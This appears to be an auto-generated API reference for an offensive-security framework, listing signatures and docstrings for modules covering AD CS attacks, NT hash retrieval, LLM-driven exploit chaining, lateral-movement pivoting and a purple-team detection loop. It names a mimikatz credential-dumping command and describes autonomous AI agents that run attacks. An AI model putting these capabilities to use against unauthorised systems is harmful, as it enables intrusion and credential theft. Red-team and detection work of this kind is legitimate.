- `authenticate_with_certificate` (line 367) `def authenticate_with_certificate(self, cert_file, domain, dc_ip, username)` - *Authenticate to the domain using a certificate and retrieve NT hash.

Args:
    cert_file: Path to the .pfx certificate file.
    domain: Domain FQDN.
    dc_ip: Domain controller IP.
    username: Optional username override.

Returns:
    NT hash string if successful, None otherwise.*
- `assess_vulnerability` (line 411) `def assess_vulnerability(self, username, password, domain, dc_ip, hashes)` - *Run a full AD CS vulnerability assessment.

Enumerates all certificate templates and maps them to
applicable ESC attack techniques.

Args:
    username: Domain user.
    password: Domain password.
    domain: Domain FQDN.
    dc_ip: Domain controller IP.
    hashes: Optional NTLM hashes.

Returns:
    Dict mapping ESC IDs to lists of vulnerable template dicts.*

#### `agent_runner.py`
**Path:** `modules/agent_runner.py`
**File Doc:** *LazyOwn AI Agent - Ultimate Edition Mejoras: Anti-Hang (Timeout), Gestión de Memoria, Validación de Argumentos y Anti-Loop.*

**Classes:**
- `AgentTool` (line 66) `class AgentTool` - *Herramienta ejecutable con validación y truncado*
- `CommandMetadata` (line 127) `class CommandMetadata`
- `ASTToolExtractor` (line 134) `class ASTToolExtractor` - *Extractor inteligente usando AST*
- `AgentRunner` (line 190) `class AgentRunner` - *Motor del agente con Límite de Uso por Herramienta (Anti-Spam)*
- `LazyOwnShellWrapper` (line 482) `class LazyOwnShellWrapper` - *Wrapper que ejecuta comandos en hilos seguros*
- `VulnBotCLI` (line 559) `class VulnBotCLI`

**Functions:**
- `configure_logging` (line 60) `def configure_logging(debug)`
- `_tool_call_snapshot` (line 173) `def _tool_call_snapshot(tool_call)` - *Flatten one SDK/SimpleNamespace tool call into a plain JSON dict.

The raw object is not JSON-serializable, so persisting it in the
conversation history breaks the ConversationStore save.*
- `interactive_mode` (line 620) `def interactive_mode(bot)`
- `parse_args` (line 644) `def parse_args()`
- `main` (line 654) `def main()`
- `target` (line 522) `def target()`
- `make_executor` (line 243) `def make_executor(cmd_name)`
- `wrapper` (line 244) `def wrapper(command)`

**Methods:**
- `__init__` (line 69) `def __init__(self, name, description, func, parameters, required)`
- `to_api_format` (line 77) `def to_api_format(self)`
- `execute` (line 83) `def execute(self)` - *Ejecuta con validación de argumentos y formato claro*
- `extract_commands_from_file` (line 138) `def extract_commands_from_file(file_path, prefix)`
- `__init__` (line 193) `def __init__(self, model, system_prompt, max_iterations)`
- `_reset_history` (line 207) `def _reset_history(self)`
- `_manage_memory` (line 210) `def _manage_memory(self)` - *Mantiene la ventana de contexto limpia*
- `register_tool` (line 218) `def register_tool(self, tool)`
- `register_tool_from_instance` (line 221) `def register_tool_from_instance(self, func)` - *Wrap a plain function as an AgentTool using its signature and docstring.*
- `register_tools_from_metadata` (line 239) `def register_tools_from_metadata(self, commands, executor)`
- `get_tools_for_api` (line 266) `def get_tools_for_api(self)`
- `run` (line 271) `def run(self, user_input)`
- `_call_model` (line 295) `def _call_model(self)`
- `_stream_call` (line 341) `def _stream_call(self, model_name, messages, max_tokens)` - *One model turn with ``stream=True``, reassembling the reply.

OpenAI-compatible streams deliver content, reasoning and tool
calls as deltas. This assembles them back into the response
shape the base loop expects and forwards content/reasoning
fragments to ``delta_sink`` for live reporting.

Args:
    model_name: Model id to call.
    messages: Conversation context.
    max_tokens: Optional token cap for providers that accept it.

Returns:
    A response-like namespace with ``choices[0].message``.*
- `_emit_delta` (line 415) `def _emit_delta(self, kind, text)` - *Forward streamed fragments to the sink, throttled to one per second.*
- `_process_tool_call` (line 434) `def _process_tool_call(self, tool_call)`
- `__init__` (line 485) `def __init__(self, script_path)`
- `_load_shell` (line 492) `def _load_shell(self)`
- `execute_command` (line 515) `def execute_command(self, command)` - *Ejecuta comando con timeout usando threading*
- `get_commands_summary` (line 552) `def get_commands_summary(self)`
- `__init__` (line 560) `def __init__(self, provider, mode, debug, script_path)`
- `_load_model` (line 572) `def _load_model(self)` - *Instantiate the LLM backend mapped to ``self.provider``.

Returns:
    A configured :class:`AIModel` instance.

Raises:
    LLMBackendNotSupportedError: When ``self.provider`` does not
        map to a known backend.
    LLMBackendUnavailableError: When the resolved backend cannot
        be constructed from the current environment.*
- `_setup_agent` (line 587) `def _setup_agent(self)`
- `process_request` (line 615) `def process_request(self, user_input)`

#### `ai_exploit_chain.py`
**Path:** `modules/ai_exploit_chain.py`
**File Doc:** *AI-Driven Exploit Chaining Engine.  Multi-step reasoning for exploit attempts. When one exploit fails the engine analyzes WHY it failed and pivots to a different strategy using a heuristic decision matrix. No external API calls required.  Usage: from modules.ai_exploit_chain import AIExploitChainer, ExploitChainContext chainer = AIExploitChainer() ctx = ExploitChainContext(target="10.10.11.5", profile=profile) candidate = chainer.reason(ctx)*

**Classes:**
- `ExploitChainContext` (line 223) `class ExploitChainContext` - *Mutable context tracking state across chained exploit attempts.

Attributes:
    target: IP or hostname of the target.
    profile: Immutable TargetProfile snapshot.
    attempted: All exploit results (success and failure).
    available_strategies: Strategies not yet tried.
    failed_strategies: Strategies that failed.
    success_strategies: Strategies that yielded access.
    current_phase: Active kill-chain phase label.
    chain_score: Aggregate chain quality (0.0-1.0).*
- `AIExploitChainer` (line 247) `class AIExploitChainer` - *Heuristic exploit chainer that reasons about failures and pivots strategies.

Public methods:
    reason(context) -> ExploitCandidate | None
    evaluate_failure(result) -> str
    select_next_strategy(context) -> str
    estimate_confidence(strategy, profile) -> float
    build_chain_plan(context) -> list[dict]
    adapt_chain(context, new_info) -> list[dict]*

**Methods:**
- `__init__` (line 259) `def __init__(self)`
- `reason` (line 285) `def reason(self, context)` - *Analyze context failures and produce the next best exploit candidate.*
- `evaluate_failure` (line 306) `def evaluate_failure(result)` - *Classify the reason for an exploit failure by output pattern matching.

Returns a failure category string (e.g. ``auth_required``).*
- `select_next_strategy` (line 318) `def select_next_strategy(self, context)` - *Select the next strategy to attempt based on context and failures.

Priority: adaptation from last failure, phase-aware escalation,
service-based heuristics, then highest confidence remaining.*
- `estimate_confidence` (line 349) `def estimate_confidence(self, strategy, profile)` - *Estimate confidence (0.0-1.0) for a strategy against a target profile.

Adjusts base score using open ports, credentials, OS type, and
known vulns from the profile. Returns a clamped value.*
- `build_chain_plan` (line 391) `def build_chain_plan(self, context)` - *Build a full multi-step exploitation plan following the kill chain.

Each phase is assigned a primary strategy and fallbacks ranked by
confidence.*
- `adapt_chain` (line 428) `def adapt_chain(self, context, new_info)` - *Adapt the chain plan based on newly discovered information.

Unlocks strategies based on new creds, ports, OS details, and
parses shell output for privilege escalation hints.

Args:
    context: Current exploit chain state.
    new_info: Dict with optional keys ``credentials``,
        ``open_ports``, ``os_type``, ``os_version``,
        ``access_level``, ``shell_output``.

Returns:
    Rebuilt chain plan reflecting the new information.*
- `_ensure` (line 487) `def _ensure(context, strategy)` - *Add *strategy* to available_strategies if not already present.*
- `_parse_shell_hints` (line 492) `def _parse_shell_hints(self, output, context)` - *Detect privesc vectors and credentials in shell output.*

#### `ai_fallback.py`
**Path:** `modules/ai_fallback.py`
**File Doc:** *LazyOwn AI Fallback Chain ========================== Unified LLM caller with automatic fallback:  1. Groq (cloud, fast, requires api_key) ↓ on quota / rate-limit error 2. Ollama (local, requires ollama running + a chat model) ↓ if Ollama unreachable or no suitable model 3. Helpful error message with actionable steps  Used by recommender.py and timeline_narrator.py so fallback logic lives in exactly one place.  Public API ---------- call(prompt, system, api_key, max_tokens, temperature) -> AIResult  AIResult fields: .text     str   — the response text (or error/help message) .backend  str   — "groq" | "ollama" | "error" .model    str   — model name used .error    str   — original error if fallback occurred (else "")*

**Classes:**
- `AIResult` (line 95) `class AIResult`

**Functions:**
- `_ollama_available` (line 105) `def _ollama_available()`
- `_best_ollama_model` (line 113) `def _best_ollama_model()` - *Return the best available chat model, or None if none found.*
- `_ollama_call` (line 140) `def _ollama_call(model, system, user, max_tokens, temperature)`
- `_is_quota_error` (line 184) `def _is_quota_error(exc)`
- `_groq_call` (line 189) `def _groq_call(api_key, system, user, max_tokens, temperature)`
- `_toposwarm_call` (line 226) `def _toposwarm_call(prompt, system)` - *Try TopoSwarm local brain as a last-resort fallback.
Returns an AIResult if TopoSwarm is available, else None.*
- `call` (line 254) `def call(prompt, system, api_key, max_tokens, temperature)` - *Call Groq → fallback to Ollama → fallback to TopoSwarm local brain → error.
Returns an AIResult with .text, .backend, .model, .error.*

#### `ai_model.py`
**Path:** `modules/ai_model.py`
**File Doc:** *Concrete language model backends for LazyOwn.  This module exposes the abstract :class:`AIModel` together with five concrete implementations: :class:`GroqModel` (cloud), :class:`OllamaModel` (local), :class:`OpenAIModel` (cloud), :class:`AnthropicModel` (cloud), and :class:`DeepSeekModel` (cloud). Every implementation honours both the historical ``generate``/``stream_generate`` interface used by the existing AI agents and the :func:`complete` signature defined in ``core.protocols.LLMBackend``. Callers depending on the abstract type remain decoupled from the concrete provider.  For provider selection driven by ``payload.json`` use :func:`modules.llm_factory.get_llm_backend`. Do not instantiate the concrete classes from new code unless a test explicitly requires it.*

**Classes:**
- `AIModel` (line 45) `class AIModel(ABC)` - *Abstract base class for language model backends.

Concrete subclasses must implement :meth:`generate` and
:meth:`stream_generate`. A default :meth:`complete` implementation
is provided that combines ``system`` and ``user`` prompts into the
historical single-prompt format so subclasses gain
``core.protocols.LLMBackend`` compatibility for free.*
- `_LazyImporter` (line 97) `class _LazyImporter` - *Deferred importer to avoid import errors when optional SDKs are unavailable.*
- `GroqModel` (line 129) `class GroqModel(AIModel)` - *Groq-hosted Llama backend.

Uses the official ``groq`` SDK. Errors are returned as readable
strings rather than raised so callers do not have to wrap every
invocation in try/except blocks for surface-level failures.*
- `OllamaModel` (line 244) `class OllamaModel(AIModel)` - *Ollama-hosted local backend.

Communicates with a local Ollama daemon via its HTTP API. The model
identifier and host are configurable so operators can point at any
Ollama-compatible endpoint without code changes.*
- `LlamaCppModel` (line 313) `class LlamaCppModel(AIModel)` - *llama.cpp server backend (OpenAI-compatible ``/v1`` API, keyless).

Talks to a locally hosted ``llama-server`` (see the ``lazy_llamacpp``
addon) over HTTP. Every request carries connect/read timeouts so a
dead server fails fast into the pool failover instead of hanging the
loop. When the ``openai`` SDK is importable, ``client`` exposes a
tool-calling chat client against the same endpoint so the agentic
path can use this leg.*
- `OpenAIModel` (line 434) `class OpenAIModel(AIModel)` - *OpenAI-hosted backend (GPT-4o, GPT-4, etc.).

Uses the ``openai`` SDK. Requires an OpenAI API key.*
- `AnthropicModel` (line 493) `class AnthropicModel(AIModel)` - *Anthropic Claude backend.

Uses the ``anthropic`` SDK. Requires an Anthropic API key.*
- `DeepSeekModel` (line 549) `class DeepSeekModel(AIModel)` - *DeepSeek cloud backend.

Uses the OpenAI-compatible API at api.deepseek.com.
Requires a DeepSeek API key.*

**Methods:**
- `generate` (line 56) `def generate(self, prompt)` - *Return a non-streaming completion for ``prompt``.*
- `stream_generate` (line 60) `def stream_generate(self, prompt)` - *Yield streaming completion chunks for ``prompt``.*
- `complete` (line 63) `def complete(self, system, user, max_tokens, temperature)` - *Return a completion conforming to ``core.protocols.LLMBackend``.

The default implementation concatenates ``system`` and ``user``
with explicit role markers and delegates to :meth:`generate`.
Backends that natively support role-aware chat formats may
override this method for higher fidelity.

Args:
    system: System prompt establishing persona, constraints,
        and output contract.
    user: User-turn prompt with the concrete task.
    max_tokens: Advisory cap accepted for protocol parity.
        Concrete backends honour it when their SDK supports it.
    temperature: Advisory sampling temperature accepted for
        protocol parity.

Returns:
    The completion as a string.*
- `groq` (line 105) `def groq(cls)`
- `openai` (line 113) `def openai(cls)`
- `anthropic` (line 121) `def anthropic(cls)`
- `__init__` (line 137) `def __init__(self, api_key, model)`
- `_model_chain` (line 141) `def _model_chain(self)` - *Return the configured model first, then known-good fallbacks.*
- `generate` (line 155) `def generate(self, prompt)` - *Return a single completion for ``prompt``.

Fails over to a known-good model id when the configured one is
unavailable (Groq answers 404 model_not_found for retired ids).

Args:
    prompt: The full prompt string sent to Groq.

Returns:
    The model completion or a human-readable error string.*
- `stream_generate` (line 183) `def stream_generate(self, prompt)` - *Yield streamed completion chunks for ``prompt``.

Fails over to a known-good model id when the configured one is
unavailable, mirroring :meth:`generate`.

Args:
    prompt: The full prompt string sent to Groq.

Yields:
    Successive content fragments emitted by the Groq stream.*
- `complete` (line 216) `def complete(self, system, user, max_tokens, temperature)` - *Return a chat completion using native role separation.

Overrides the default :meth:`AIModel.complete` to leverage
Groq's chat schema and to honour ``max_tokens`` / ``temperature``
directly.*
- `__init__` (line 252) `def __init__(self, model, host)`
- `generate` (line 260) `def generate(self, prompt)` - *Return a single completion for ``prompt``.

Args:
    prompt: The full prompt string sent to Ollama.

Returns:
    The model completion or a human-readable error string.*
- `stream_generate` (line 281) `def stream_generate(self, prompt)` - *Yield streamed completion chunks for ``prompt``.

Args:
    prompt: The full prompt string sent to Ollama.

Yields:
    Successive ``response`` fields from the Ollama stream.*
- `__init__` (line 324) `def __init__(self, model, host)`
- `_chat` (line 341) `def _chat(self, messages, max_tokens, stream)` - *POST one chat request; return the raw response.

Thinking is disabled: loop turns are short tool decisions where a
reasoning trace would burn the token budget and risk empty
content, while multi-turn strategy already lives in the
conversation, not in one block.*
- `generate` (line 362) `def generate(self, prompt)` - *Return a single completion for ``prompt``.

Args:
    prompt: The full prompt string sent to the server.

Returns:
    The completion text or a human-readable error string.*
- `stream_generate` (line 382) `def stream_generate(self, prompt)` - *Yield streamed completion deltas for ``prompt``.

Args:
    prompt: The full prompt string sent to the server.

Yields:
    Successive content deltas from the SSE stream.*
- `complete` (line 413) `def complete(self, system, user, max_tokens, temperature)` - *Role-aware completion through the chat endpoint.*
- `__init__` (line 440) `def __init__(self, api_key, model)`
- `generate` (line 444) `def generate(self, prompt)`
- `stream_generate` (line 455) `def stream_generate(self, prompt)`
- `complete` (line 470) `def complete(self, system, user, max_tokens, temperature)`
- `__init__` (line 499) `def __init__(self, api_key, model)`
- `generate` (line 503) `def generate(self, prompt)`
- `stream_generate` (line 515) `def stream_generate(self, prompt)`
- `complete` (line 529) `def complete(self, system, user, max_tokens, temperature)`
- `__init__` (line 556) `def __init__(self, api_key, model)`
- `generate` (line 563) `def generate(self, prompt)`
- `stream_generate` (line 574) `def stream_generate(self, prompt)`
- `complete` (line 589) `def complete(self, system, user, max_tokens, temperature)`

#### `amt_auth_bypass.py`
**Path:** `modules/amt_auth_bypass.py`

**Classes:**
- `BlankAuthResponse` (line 8) `class BlankAuthResponse`

**Functions:**
- `start` (line 4) `def start()`

**Methods:**
- `request` (line 11) `def request(self, flow)`

#### `apt_playbooks.py`
**Path:** `modules/apt_playbooks.py`
**File Doc:** *APT Playbook Engine — map public APT reports to executable Atomic Red Team chains.  This module reads enriched playbooks from ``playbooks/apt_*.yaml`` and provides execution, validation, and reporting without touching ``lazyown.py`` internals.  Playbook schema (enriched): apt_name: str aliases: list[str] source_urls: list[str] description: str platforms: list[str] phases: - name: str            # e.g. initial_access, persistence, privilege_escalation technique_id: str     # MITRE ATT&CK technique (e.g. T1566.001) technique_name: str description: str atomic_tests: - atomic_id: str    # ART auto_generated_guid name: str manual: bool      # If true, operator must paste command interactively caldera_abilities:    # Optional CALDERA ability IDs - ability_id: str detection_hints: list[str]*

**Classes:**
- `AtomicTestRef` (line 41) `class AtomicTestRef`
- `CalderaAbilityRef` (line 48) `class CalderaAbilityRef`
- `PhaseStep` (line 54) `class PhaseStep`
- `AptPlaybook` (line 65) `class AptPlaybook`
- `AptPlaybookEngine` (line 111) `class AptPlaybookEngine` - *Load, list, validate and execute APT playbooks.*

**Methods:**
- `from_dict` (line 74) `def from_dict(cls, data)`
- `to_summary` (line 99) `def to_summary(self)`
- `__init__` (line 114) `def __init__(self, playbook_dir)`
- `_load_all` (line 119) `def _load_all(self)`
- `list_playbooks` (line 131) `def list_playbooks(self)`
- `get` (line 134) `def get(self, name)`
- `validate` (line 138) `def validate(self, pb, atomic_path)` - *Validate that all referenced atomic tests exist locally.*
- `_build_atomic_index` (line 175) `def _build_atomic_index(self, atomic_yaml_path)`
- `generate_attack_plan` (line 189) `def generate_attack_plan(self, pb, output_path)` - *Generate a legacy ``attack_plan.yaml`` from an enriched APT playbook.*
- `report_json` (line 204) `def report_json(self, pb, output_path)` - *Write a structured JSON report of the playbook for the operator.*

#### `asset_graph.py`
**Path:** `modules/asset_graph.py`
**File Doc:** *Global asset truth store joined to per-task exploration chains.  Ports the LAZY dual-graph contract. Asset nodes deduplicate by a computed key. Exploration nodes form intent, fact, and finding chains. Anchors join the two graphs in both directions for coverage queries.*

**Classes:**
- `GraphConfig` (line 17) `class GraphConfig` - *Centralized constants for graph behavior.*
- `AssetNode` (line 36) `class AssetNode` - *Single truth asset in the global graph.*
- `ExplorationNode` (line 50) `class ExplorationNode` - *Single step in a task exploration chain.*
- `Anchor` (line 63) `class Anchor` - *Join between an exploration node and an asset node.*
- `AssetGraph` (line 70) `class AssetGraph` - *Thread-safe dual graph with bidirectional anchor lookup.*

**Functions:**
- `asset_key` (line 28) `def asset_key(asset_type, value, parent_key)` - *Compute the stable deduplication key for an asset.*
- `coverage_for` (line 214) `def coverage_for(db, workspace_id, scope)` - *Report tested scope assets versus total scope from the campaign db.

The scope is the explicit target list (never inferred). An address
counts as tested when present in the workspace hosts.*

**Methods:**
- `__init__` (line 73) `def __init__(self, config)` - *Initialize empty graphs and anchor indexes.*
- `upsert_asset` (line 82) `def upsert_asset(self, asset_type, value, parent_key, company)` - *Insert or refresh an asset and return the canonical node.*
- `add_node` (line 108) `def add_node(self, task_id, kind, text, parent_id, payload)` - *Append an exploration node to a task chain.*
- `add_fact` (line 123) `def add_fact(self, task_id, text, parent_id, payload)` - *Append a fact node to a task chain.*
- `add_finding` (line 128) `def add_finding(self, task_id, text, parent_id, payload)` - *Append a finding node to a task chain.*
- `anchor` (line 133) `def anchor(self, exploration_id, key)` - *Link an exploration node to an asset key.*
- `assets_for_node` (line 145) `def assets_for_node(self, exploration_id)` - *List assets anchored to one exploration node.*
- `nodes_for_asset` (line 151) `def nodes_for_asset(self, key)` - *List exploration nodes anchored to one asset.*
- `coverage` (line 157) `def coverage(self, task_id)` - *Report tested versus total assets for a task.*
- `mirror_to_campaign` (line 170) `def mirror_to_campaign(self, db, world_model, workspace_id)` - *Mirror graph assets into the campaign database and world model.

Deduplicated graph nodes become db hosts/services and world model
hosts, so the existing db_hosts/vuln_list/sitrep surfaces show
them. Returns counts of mirrored hosts and services.*

#### `atomic_enricher.py`
**Path:** `modules/atomic_enricher.py`
**File Doc:** *atomic_enricher.py — Enrich techniques.parquet with structured derived columns.  Reads  parquets/techniques.parquet  (1690 Atomic Red Team tests, already present) Writes parquets/techniques_enriched.parquet  (same rows + 6 new columns)  New columns ----------- platform_list : List[str]   normalised platform list  ['linux','windows','macos',...] scope         : str          'local' | 'remote' | 'elevated' | 'any' has_prereqs   : bool         prereq_command is non-empty complexity    : str          'low' | 'medium' | 'high'  (from command line count) tactic_prefix : str          'T1003' extracted from mitre_id 'T1003.007' keyword_tags  : List[str]    top meaningful tokens from name (stop-words removed)  Public API ---------- enrich()        -> pd.DataFrame   build enriched dataframe + save load_enriched() -> pd.DataFrame   load existing enriched parquet (build if missing)*

**Functions:**
- `_parse_platforms` (line 122) `def _parse_platforms(raw)` - *Convert numpy array / list / string platform field → sorted list.*
- `_parse_scope` (line 135) `def _parse_scope(name)`
- `_parse_complexity` (line 142) `def _parse_complexity(command)`
- `_parse_keyword_tags` (line 152) `def _parse_keyword_tags(name, description)`
- `_tactic_prefix` (line 164) `def _tactic_prefix(mitre_id)`
- `enrich` (line 173) `def enrich(force)` - *Build enriched parquet.  Skips if DST_PARQUET already exists (use force=True to rebuild).
Returns the enriched DataFrame.*
- `_to_pylist` (line 204) `def _to_pylist(val)` - *Normalise numpy array / list / None → plain Python list of strings.*
- `load_enriched` (line 215) `def load_enriched()` - *Load enriched parquet, building it first if it doesn't exist.
Normalises list columns to plain Python lists after loading.*
- `query_atomic` (line 232) `def query_atomic(keyword, mitre_id, platform, scope, has_prereqs, complexity, limit, include_command)` - *Structured query over the enriched Atomic Red Team technique catalogue.

Parameters
----------
keyword      : free-text search over name + description + keyword_tags
mitre_id     : exact match OR prefix (e.g. "T1059" matches T1059, T1059.001, …)
platform     : 'linux' | 'windows' | 'macos' | 'freebsd' | 'cloud'
scope        : 'local' | 'remote' | 'elevated' | 'any'
has_prereqs  : True → only tests with prerequisites; False → no prereqs needed
complexity   : 'low' | 'medium' | 'high'
limit        : max results (default 10)
include_command : include the raw command text in results

Returns
-------
List of dicts with keys:
    id, name, mitre_id, tactic_prefix, platform_list, scope,
    complexity, has_prereqs, keyword_tags,
    description_preview (first 200 chars),
    command_preview     (first 300 chars, only if include_command=True)*

#### `attack_surface3d.py`
**Path:** `modules/attack_surface3d.py`
**File Doc:** *Attack-surface 3D intel module: C2-centred campaign graph.  Fuses the live attack surface (``cli.surface_graph``: C2 root, implants, discovered hosts, open ports, services) with the campaign intel fusion (``modules.intel_fusion``: objectives, findings, loop tasks, session-log mentions) into ONE heterogeneous graph rendered with the ReadMenator node engine (force 2D/3D, circular bundles, spherical view).  Inspiration mapping (kept, not copied): - estorides entity resolution -> hosts merged by IP across surface scans, world model and logs; corroborating artefacts tagged per node. - CAIRN explorer (Cisco-Talos) toggles/hulls/analytics -> type pills, community halos, top-exposed ranking feeding ``intel_summary.json``. - ReadMenator force/bundle explorers -> verbatim node engine, physics sizes, glyphs, legend and inspector; only the data adapters differ.  The reverse leg closes the loop: :func:`refresh_summary` scores host exposure into ``sessions/intel_summary.json``, which the autonomous planner consumes, turning session data into information and information into intelligence on every request.*

**Functions:**
- `_family_color` (line 100) `def _family_color(name)` - *Stable dusty HSL color from a community name (djb2, ReadMenator).*
- `_pagerank` (line 111) `def _pagerank(ids, pairs, alpha, max_iter, tol)` - *PageRank over node ids (same contract as ReadMenator rank).*
- `_host_of` (line 141) `def _host_of(node)` - *Return the dotted IP a surface node belongs to, or "".*
- `build_attack_graph` (line 147) `def build_attack_graph(sessions_dir, payload_path, est_cap)` - *Fuse surface scans with campaign intel into one C2-centred graph.*
- `_intel_id_map` (line 315) `def _intel_id_map(intel, key_to_id)` - *Map every intel node id to its merged attack-graph id.*
- `_doc` (line 327) `def _doc(node)` - *Bounded purpose string for the inspector.*
- `_symbols` (line 346) `def _symbols(node)` - *Compact symbol records for the inspector (max 40).*
- `_enrich` (line 365) `def _enrich(nodes, edges)` - *Add ReadMenator explorer fields in place (type/layer/rank/doc).*
- `refresh_summary` (line 460) `def refresh_summary(graph, sessions_dir)` - *Score exposure into intel_summary.json for the autonomous loop.*
- `add_edge` (line 155) `def add_edge(src, dst, kind, evidence, weight)` - *Append one provenance-tagged relation between known nodes.*
- `tag` (line 166) `def tag(nid, source)` - *Record a corroborating artefact on a node, deduped.*

#### `auto_pivot.py`
**Path:** `modules/auto_pivot.py`
**File Doc:** *Auto-Pivoting Engine for LazyOwn.  Automated lateral movement through compromised hosts: - Multi-hop SOCKS proxy chaining - Subnet discovery via compromised host perspective - Route maintenance with health checks - Automatic credential re-use across hops*

**Classes:**
- `PivotNode` (line 23) `class PivotNode`
- `PivotChain` (line 39) `class PivotChain`
- `AutoPivotEngine` (line 47) `class AutoPivotEngine` - *Manages automated pivoting through compromised hosts.

Attributes:
    config: Reference to payload.json configuration.
    sessions_dir: Directory for persisting pivot state.*

**Methods:**
- `__init__` (line 73) `def __init__(self, config)`
- `set_config` (line 82) `def set_config(self, config)`
- `_next_port` (line 85) `def _next_port(self)`
- `add_pivot_node` (line 90) `def add_pivot_node(self, ip, access_type, credential_id, hostname)`
- `remove_pivot_node` (line 120) `def remove_pivot_node(self, ip)`
- `discover_subnets` (line 128) `def discover_subnets(self, node_ip, command_output)`
- `build_chain` (line 146) `def build_chain(self, target_ip, via_nodes, subnet)`
- `generate_proxychains_config` (line 177) `def generate_proxychains_config(self, chain_id)`
- `generate_sshuttle_command` (line 203) `def generate_sshuttle_command(self, node_ip, subnet)`
- `generate_chisel_command` (line 206) `def generate_chisel_command(self, target_ip, local_port)`
- `generate_ssh_socks_command` (line 212) `def generate_ssh_socks_command(self, node_ip, local_port)`
- `health_check` (line 216) `def health_check(self, node_ip)`
- `health_check_all` (line 237) `def health_check_all(self)`
- `get_active_routes` (line 243) `def get_active_routes(self)`
- `get_reachable_hosts` (line 259) `def get_reachable_hosts(self, node_ip)`
- `set_reachable_hosts` (line 267) `def set_reachable_hosts(self, node_ip, hosts)`
- `set_route_priority` (line 272) `def set_route_priority(self, node_ip, priority)`
- `_persist_state` (line 277) `def _persist_state(self)`
- `_load_state` (line 314) `def _load_state(self)`
- `suggest_next_pivot` (line 352) `def suggest_next_pivot(self)`

#### `auto_purple.py`
**Path:** `modules/auto_purple.py`
**File Doc:** *Purple Team Closed-Loop — honest measurement of offensive detection.  Orchestrates the cycle: execute red action -> measure with LazyOwnBT (blue) -> record real results -> generate ML training datasets -> calibrate oracle.  Every engagement produces a CSV dataset that LazyOwnBT can ingest to improve its RandomForest detection model. This is a genuine feedback loop, not static probability guessing.  Design principles ----------------- - Single Responsibility : purple loop orchestration only - Open/Closed           : new detection methods added via _DETECTION_METHODS - Dependency Inversion  : callers depend on IPurpleLoop, not PurpleTeamLoop - Interface Segregation : read-only IPurpleEvaluator vs read-write IPurpleLoop - No secrets            : config from payload.json, paths from sessions/  Usage ----- from modules.auto_purple import get_loop  loop = get_loop() result = loop.execute_and_measure("mimikatz", "sekurlsa::logonpasswords", "credential") print(f"Detected: {result.actually_detected}  Oracle predicted: {result.oracle_prediction:.0%}")*

**Classes:**
- `DetectionMethod` (line 72) `class DetectionMethod` - *Describes one LazyOwnBT detection surface.*
- `PurpleResult` (line 132) `class PurpleResult` - *Result of a single red action measurement.*
- `PurpleScore` (line 165) `class PurpleScore` - *Aggregated detection score for an engagement.*
- `IPurpleLoop` (line 181) `class IPurpleLoop(ABC)` - *Read-write contract for purple team orchestration.*
- `IPurpleEvaluator` (line 210) `class IPurpleEvaluator(ABC)` - *Read-only contract for evaluation queries.*
- `PurpleTeamLoop` (line 407) `class PurpleTeamLoop(IPurpleLoop, IPurpleEvaluator)` - *Closed-loop purple team orchestrator.

Executes red team actions, measures real detection via LazyOwnBT,
generates CSV datasets for ML training, and calibrates the DetectionOracle.*

**Functions:**
- `_run_bt_command` (line 225) `def _run_bt_command(bt_path, command, timeout)` - *Execute a LazyOwnBT CLI command via PTY subprocess.

Same pattern as skills/lazyownbt_mcp.py._run_lazyownbt_command.*
- `_parse_ai_test` (line 329) `def _parse_ai_test(output, command, args)` - *Parse LazyOwnBT ai_test output. Only True if model says 'malicious'.*
- `_parse_keyword_match` (line 342) `def _parse_keyword_match(output, command, args)` - *Check if the command/args appear in the detection output as flagged.*
- `_parse_alert_check` (line 374) `def _parse_alert_check(output, command, args)` - *Check if log analysis produced alerts related to our action.*
- `_parse_fim_check` (line 388) `def _parse_fim_check(output, command, args)` - *FIM detects only if files were actually modified.*
- `get_loop` (line 772) `def get_loop(bt_path, detection_delay, methods, auto_feedback)` - *Return (or create) the module-level PurpleTeamLoop singleton.*
- `load_config_from_payload` (line 790) `def load_config_from_payload(params)` - *Extract purple_team config from payload.json params dict.

Returns a dict with keys: enabled, bt_path, detection_delay,
methods, auto_feedback, score_threshold.*

**Methods:**
- `to_csv_row` (line 146) `def to_csv_row(self)` - *Serialize to a flat dict suitable for CSV writer.*
- `to_dict` (line 160) `def to_dict(self)`
- `execute_and_measure` (line 185) `def execute_and_measure(self, command, args, category)`
- `measure_only` (line 193) `def measure_only(self, command, args, category)`
- `engagement_score` (line 201) `def engagement_score(self)`
- `export_dataset` (line 204) `def export_dataset(self)`
- `export_report` (line 207) `def export_report(self)`
- `last_results` (line 214) `def last_results(self, n)`
- `category_accuracy` (line 217) `def category_accuracy(self, category)`
- `__init__` (line 414) `def __init__(self, bt_path, detection_delay, methods, auto_feedback, session_id)`
- `_init_dataset` (line 433) `def _init_dataset(self)` - *Create CSV header if dataset file does not exist.*
- `execute_and_measure` (line 443) `def execute_and_measure(self, command, args, category)` - *Execute a red action and measure if LazyOwnBT detects it.*
- `measure_only` (line 493) `def measure_only(self, command, args, category)` - *Measure without executing — test if BT would detect the command.*
- `engagement_score` (line 529) `def engagement_score(self)` - *Aggregate detection score from all results in this session.*
- `export_dataset` (line 567) `def export_dataset(self)` - *Return the path to the CSV dataset file.*
- `export_report` (line 571) `def export_report(self)` - *Generate a full engagement report.*
- `last_results` (line 596) `def last_results(self, n)`
- `category_accuracy` (line 599) `def category_accuracy(self, category)`
- `_execute_red` (line 614) `def _execute_red(self, command, args)` - *Execute a red team command via LazyOwn's run_command.*
- `_query_blue` (line 635) `def _query_blue(self, command, args)` - *Query each enabled LazyOwnBT detection method.*
- `_hash_output` (line 687) `def _hash_output(self, output)` - *Hash red output for dataset dedup.*
- `_write_audit` (line 693) `def _write_audit(self, result)` - *Append to JSONL audit log.*
- `_append_dataset` (line 698) `def _append_dataset(self, result)` - *Append a row to the CSV dataset for ML training.*
- `_write_feedback` (line 704) `def _write_feedback(self, result)` - *Write detection feedback for oracle calibration.

Format matches detection_feed.py expectations:
    {"rule_id": ..., "detected": bool, "actual": bool}*
- `_load_audit` (line 724) `def _load_audit(self)` - *Load results from JSONL audit file.*
- `_compute_oracle_accuracy` (line 739) `def _compute_oracle_accuracy(self)` - *Compute how well oracle predictions match real detections.*
- `_get_detection_methods` (line 759) `def _get_detection_methods(self)` - *Return available detection methods for display.*

#### `auto_registry.py`
**Path:** `modules/auto_registry.py`
